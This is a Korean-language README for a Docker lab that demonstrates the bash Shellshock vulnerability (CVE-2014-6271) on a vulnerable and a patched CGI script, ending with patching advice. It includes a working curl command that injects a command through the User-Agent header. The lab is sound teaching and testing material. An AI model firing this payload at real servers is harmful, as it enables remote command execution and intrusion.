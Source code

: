 # CVE-2014-6271

취약점 설명

CVE-2014-6271은 bash에서 발견된 보안 취약점으로 'Shellshock'라는 이름으로 알려져있다. 이 취약점은 Bash가 환경 변수를 처리하는 과정에서 발생한다. 특히 bash가 함수를 환경 변수로부터 받을 때, 뒤에 따라오는 추가 명령을 실행하는 문제가 있다.

환경 구성 및 실행

```
docker compose build
docker compose up -d
```
위 명령어를 실행하여 테스트 환경을 구축할 수 있다.
이를 통해 두 개의 cgi 스크립트가 호스팅되는 웹 서버 환경을 만든다:

safe.cgi - 최신 Bash를 사용하여 생성된 CGI 스크립트로,  Shellshock 취약점에 안전하다.
victim.cgi - Bash 4.3을 사용하여 생성된 CGI 스크립트로, Shellshock 취약점에 취약하다.

취약점 확인

사용자가 HTTP요청 도구를 사용하여 victim.cgi에 접근할 때 User-Agent부분에 취약점을 이용하여 명령어를 포함시킨 요청을 보낸다.
이 요청이 실행될 경우 취약점이 있는 bash를 사용하는 서버에서 명령어가 실행된다.
반면 safe.cgi는 패치가 진행된 bash를 사용하여 동일한 요청에도 영향을 받지 않는 것을 확인할 수 있다.

아래 명령어를 통해 이를 확인할 수 있다.

1. 취약한 bash의 경우
```
curl -v http://your_ip_address:8080/victim.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행된 것을 확인할 수 있다.
![](victim_result.png)

2. 안전한 bash의 경우
```
curl -v http://your_ip_address:8080/safe.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행되지 않는 것을 확인할 수 있다.
![](safe_result.png)

정리

이 취약점은 공격자가 원하는 코드를 원격으로 실행할 수 있도록 하여, 취약한 시스템에 대한 제어가 가능하게 한다. bash를 사용하는 시스템이 매우 많아 이 취약점은 광범위한 영향을 끼쳤다. 
이러한 취약점에 대응하기 위해 bash의 버전을 업데이트 하여 사용하여야 하고, 취약한 bash를 사용하는 시스템들을 점검하여야 한다.

